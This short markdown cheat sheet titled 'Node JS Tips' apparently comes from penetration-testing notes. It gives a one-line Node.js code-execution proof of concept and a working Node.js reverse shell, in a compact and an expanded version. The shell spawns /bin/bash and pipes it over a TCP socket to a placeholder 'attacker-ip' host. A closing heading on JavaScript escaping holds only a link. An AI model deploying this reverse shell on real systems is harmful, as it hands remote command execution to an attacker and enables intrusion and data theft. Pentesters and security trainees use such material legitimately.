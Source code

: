 # Node JS Tips

## Whitebox RCE POC
```javascript
require('util').log('SUCCESSFUL_CODE_EXECUTION');
```

## Reverse shell
* Few lines
    ```javascript
    var net = require("net"), sh = require("child_process").exec("/bin/bash");
    var client = new net.Socket();
    client.connect(80, "attacker-ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
    sh.stderr.pipe(client);});
    ```
* Expanded:
    ```javascript
    var net = require("net"),
    sh = require("child_process").exec("/bin/bash");
    var client = new net.Socket();
    client.connect(80, "attacker-ip", function()
      {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
      }
    );
    ```
## Javascript Escaping[^1]


[^1]: [JS Escapes @mathias](https://mothereff.in/js-escapes)
